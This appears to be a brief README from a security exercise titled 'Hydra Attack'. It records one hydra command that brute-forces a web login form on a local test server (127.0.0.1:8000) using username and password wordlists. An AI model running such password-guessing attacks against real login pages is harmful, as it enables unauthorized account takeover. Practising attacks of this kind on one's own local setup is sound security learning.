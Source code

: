 # Hydra Attack

## I used following command to attack the webpage: 
hydra -L user.txt -P password.txt 127.0.0.1 -s 8000 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect".
